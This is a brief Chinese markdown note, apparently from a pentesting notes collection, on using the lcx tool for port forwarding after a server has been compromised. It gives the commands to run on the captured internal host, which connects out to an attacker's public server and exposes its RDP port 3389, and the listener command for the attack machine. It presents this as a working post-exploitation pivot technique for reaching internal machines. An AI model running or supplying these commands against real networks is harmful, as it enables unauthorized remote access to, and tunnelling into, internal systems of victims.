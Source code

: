 # lcx单端口转发

## 如何操作
拿到对方服务器后，发现是内网IP，且该机器可出网，将lcx文件发送到内网服务器上
## 操作命令
在被控内网主机上执行
```
lcx -slave 127.0.0.1:3389 公网服务器:端口
```
攻击机上执行
```
lcx -listen 9090 9091
```
这样我们在攻击机上访问本地的127.0.0.1:9091端接口就相当于访问内网的3389端口，可直接进行远程连接。
注意：该端口转发只支持tcp协议。
